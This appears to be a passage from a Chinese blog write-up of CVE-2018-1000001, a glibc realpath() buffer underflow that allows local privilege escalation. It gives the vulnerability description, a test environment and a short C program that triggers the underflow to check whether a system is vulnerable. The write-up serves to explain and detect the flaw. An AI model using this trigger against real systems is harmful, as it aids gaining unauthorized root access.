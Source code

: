 ```yaml
---
layout: post
title: CVE–2018-1000001 glibc realpath 缓冲区下溢漏洞
category: CVE
tags: cve
keywords: cve, binary, hack
description:
---
```


- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [Exploit](#exploit)
- [参考资料](#参考资料)


## 漏洞描述
该漏洞涉及到 Linux 内核的 `getcwd` 系统调用和 glibc 的 `realpath()` 函数，可以实现本地提权。漏洞产生的原因是 `getcwd` 系统调用在 Linux-2.6.36 版本发生的一些变化，我们知道 `getcwd` 用于返回当前工作目录的绝对路径，但如果当前目录不属于当前进程的根目录，即从当前根目录不能访问到该目录，如该进程使用 `chroot()` 设置了一个新的文件系统根目录，但没有将当前目录的根目录替换成新目录的时候，`getcwd` 会在返回的路径前加上 `(unreachable)`。通过改变当前目录到另一个挂载的用户空间，普通用户也可以完成这样的操作。然后返回的这个非绝对地址的字符串会在 `realpath()` 函数中发生缓冲区下溢，从而导致任意代码执行，再利用 SUID 程序即可获得目标系统上的 root 权限。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Ubuntu 16.04 | 体系结构：64 位 |
| 调试器 | gdb-peda| 版本号：7.11.1 |
| 漏洞软件 | glibc | 版本号：2.23-0ubuntu9 |

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void main() {
    //char *path;

    struct {
        char canary[16];
        char buffer[80];
    } buf;
    memset(buf.canary, 47, 1);  // put a '/' before the buffer
    memset(buf.buffer, 48, sizeof(buf.buffer));
    
    //path = getcwd(NULL, 0);
    //puts(path);
    
    chroot("/tmp");
    //path = getcwd(NULL, 0);
    //puts(path);

    realpath("../../../../BBBB", buf.buffer);
    if (!strcmp(buf.canary, "/BBBB")) {
        puts("Vulnerable");
    } else {
        puts("Not vulnerable");
    }
}
```